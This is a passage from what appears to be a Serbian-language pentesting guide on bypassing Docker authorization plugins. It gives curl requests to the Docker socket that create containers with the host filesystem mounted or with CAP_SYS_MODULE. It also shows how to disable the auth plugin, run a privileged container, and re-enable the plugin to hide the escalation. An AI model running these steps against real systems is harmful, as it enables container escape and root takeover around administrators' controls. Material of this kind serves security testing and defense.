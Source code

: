 ```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```

### Neprovereni JSON atribut

Moguće je da je sistem administrator prilikom konfigurisanja docker firewall-a **zaboravio na neki važan atribut parametra** [**API-ja**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) kao što je "**Capabilities**" unutar "**HostConfig**". U sledećem primeru je moguće iskoristiti ovu lošu konfiguraciju kako bi se kreirao i pokrenuo kontejner sa **SYS\_MODULE** sposobnostima:

```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```

{% hint style="info" %}
**`HostConfig`** je ključ koji obično sadrži **zanimljive** **privilegije** za bekstvo iz kontejnera. Međutim, kao što smo već diskutovali, primetite kako korišćenje Binds izvan njega takođe funkcioniše i može vam omogućiti da zaobiđete ograničenja.
{% endhint %}

### Onemogućavanje dodatka

Ako je **sistemski administrator** **zaboravio** da **zabrani** mogućnost **onemogućavanja** dodatka, možete iskoristiti to da ga potpuno onemogućite!

```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```

Zapamtite da **ponovo omogućite dodatak nakon eskalacije**, inače **restartovanje docker servisa neće raditi**!

### Bypass writeups za Auth Plugin
